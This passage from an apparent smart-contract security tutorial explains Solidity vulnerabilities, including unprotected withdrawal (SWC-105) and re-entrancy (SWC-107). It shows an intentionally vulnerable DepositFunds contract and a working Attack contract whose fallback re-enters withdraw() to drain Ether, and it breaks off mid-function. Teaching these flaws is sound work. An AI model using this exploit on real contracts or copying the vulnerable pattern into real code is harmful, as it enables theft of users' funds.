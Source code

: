As you can see, no function visibility (private, public, internal…) has been set.

Unprotected Ethereum Withdrawal (SWC-105)
-----------------------------------------

Due to missing or insufficient access controls, malicious parties can withdraw all ethers from the contract. This issue is sometimes caused by unintentionally exposing init functions. By wrongly naming a function intended to be a constructor, the constructor code ends up in the runtime byte code and can be called by anyone to reinitialize the contract.

Re-entrancy (SWC-107)
---------------------

In a reentrancy attack, a malicious contract (attacker contract) calls back into the calling contract before the first invocation of the function is completed. This may lead to the different invocations of the function to interact in undesirable ways.

**Example of a vulnerable contract :**

```
contract DepositFunds {  
    mapping(address => uint) public balances;  
  
    function deposit() public payable {  
        balances\[msg.sender\] += msg.value;  
    }  
  
    function withdraw() public {  
        uint bal = balances\[msg.sender\];  
        require(bal > 0);  
  
        (bool sent, ) = msg.sender.call{value: bal}("");  
        require(sent, "Failed to send Ether");  
  
        balances\[msg.sender\] = 0;  
    }  
  
  
}
```

The vulnerability comes when the user requested an amount of ethers. In this case, the attacker calls the `withdraw()`function. He can transfer tokens even though he has already received tokens because his balance is not yet set to 0.

**How to exploit them?**

An attacker can create the following contract and exploit the reentrancy vulnerability :

```
contract Attack {  
    DepositFunds public depositFunds;  
  
    constructor(address \_depositFundsAddress) {  
        depositFunds = DepositFunds(\_depositFundsAddress);  
    }  
  
    // Fallback is called when DepositFunds sends Ether to this contract.  
    fallback() external payable {  
        if (address(depositFunds).balance >= 1 ether) {  
            depositFunds.withdraw();  
        }  
    }  
  
    function attack() external payable {  
        require(msg.value >= 1 ether);  
        depositFunds.deposit{value: 1 ether}();  
        depositFunds.withdraw();  
```